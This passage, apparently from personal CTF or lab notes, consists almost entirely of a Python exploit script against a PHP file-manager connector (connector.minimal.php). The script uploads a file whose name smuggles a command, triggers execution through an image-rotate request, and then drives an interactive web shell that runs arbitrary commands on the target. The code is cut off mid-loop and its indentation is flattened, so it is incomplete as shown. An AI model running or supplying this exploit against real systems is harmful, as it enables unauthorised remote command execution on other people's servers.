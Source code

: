 ![Pasted image 20241202144738.png](../../IMAGES/Pasted%20image%2020241202144738.png)

This is a script written in python, let's change it to python3 since it's a bit outdated, the script would be the following:

```python
#!/usr/bin/python3

import requests
import json
import sys


def upload(url, payload):
 files = {'upload[]': (payload, open('image_input.jpg', 'rb'))}
 data = {"reqid": "1693222c439f4", "cmd": "upload", "target": "l1_Lw", "mtime[]": "1497726174"}
 r = requests.post(f"{url}/php/connector.minimal.php", files=files, data=data)
 j = json.loads(r.text)
 return j['added'][0]['hash']

def imgRotate(url, hash):
 r = requests.get(f"{url}/php/connector.minimal.php?target={hash}&width=539&height=960&degree=180&quality=100&bg=&mode=rotate&cmd=resize&reqid=169323550af10c")
 return r.text

def shell(url):
 r = requests.get(f"{url}/php/image_input.php")
 if r.status_code == 200:
 print("[+] We're in :)")
 print("[+] Spawning a shell")
 while True:
 try:
 input_command = input("$ ")
 r = requests.get(f"{url}/php/image_input.php?c={input_command}")
 print(r.text)
 if input_command.strip() == "exit":
 print("\nExiting.....")
```
